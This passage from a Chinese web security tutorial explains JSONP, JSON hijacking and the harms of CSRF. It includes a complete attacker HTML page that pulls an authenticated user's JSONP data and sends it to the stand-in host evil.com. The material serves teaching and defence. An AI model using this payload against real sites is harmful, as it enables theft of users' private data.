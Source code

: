 一句话描述JSONP：前端定义函数却在后端完成调用然后回到前端执行！

明白了JSONP的调用过程之后，我们可以想象这样的场景：

当用户通过身份认证之后，前端会通过JSONP的方式从服务端获取该用户的隐私数据，然后在前端进行一些处理，如个性化显示等等。这个JSONP的调用接口如果没有做相应的防护，就容易受到JSON HiJacking的攻击。

就以上面讲JSONP的情景为例，攻击者可以构造以下html页面：

```
<html>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type" /> 
<script type="text/javascript"> 
    function hijack(result) { 
        var data = '';
        for(var i in result) {
            data += i + ':' + result[i];
        }
        new Image().src = "http://www.evil.com/JSONHiJacking.php?data=" + escape(data);//把数据发送到攻击者服务器上
    } 
</script> 
<script type="text/javascript" src="http://crossdomain.com/services.php?callback=hijack"></script>
</html>

```

可以看到，攻击者在页面中构造了自己的回调函数，把获取的数据都发送到了自己的服务器上。如果受害者在已经经过身份认证的情况下访问了攻击者构造的页面，其隐私将暴露无疑。

我们用以下几张图来总结一下JSON HiJacking的攻击过程：

![](http://drops.javaweb.org/uploads/images/c67d7e70a48a704e1a958943eb9db0c7c192e727.jpg)

![](http://drops.javaweb.org/uploads/images/286b0b5392565d3b6810b0208c4ef4a6a6c9bf34.jpg)

![](http://drops.javaweb.org/uploads/images/b91d8f1a99285a50dafea6fc85211df68fc8ea69.jpg)

![](http://drops.javaweb.org/uploads/images/2c0c8863e9707edb74a27a949aaa2618b494074a.jpg)

（图片来源：[http://haacked.com/archive/2009/06/25/json-hijacking.aspx/](http://haacked.com/archive/2009/06/25/json-hijacking.aspx/)）

0x04 CSRF的危害
=====

前面说了CSRF的基本概念，列举了几个CSRF的攻击场景，讲述了几种CSRF的攻击方法，现在我们来简单总结一下CSRF攻击可能造成的危害。

CSRF能做的事情大概如下：

1）篡改目标网站上的用户数据；  
2）盗取用户隐私数据；  
3）作为其他攻击向量的辅助攻击手法；  
4）传播CSRF蠕虫。

其中前两点我们在之前的例子中已经做了比较详细的说明，不再赘述。第三点即将其他攻击方法与CSRF进行结合进行攻击，接下来我们以实际的漏洞实例来说明CSRF的第三个危害。

另外，CSRF蠕虫就是利用之前讲述的各种攻击方法，并且在攻击代码里添加了形成蠕虫传播条件的攻击向量，这一点会在本文的最后介绍。
